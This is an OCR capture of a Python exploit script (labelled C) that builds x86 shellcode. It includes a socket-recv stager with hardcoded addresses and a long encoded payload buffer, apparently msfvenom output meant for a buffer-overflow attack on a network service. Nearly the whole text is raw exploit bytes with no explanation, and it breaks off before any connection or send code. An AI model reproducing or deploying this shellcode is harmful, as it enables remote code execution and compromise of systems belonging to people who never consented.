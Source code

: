 ```c
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

```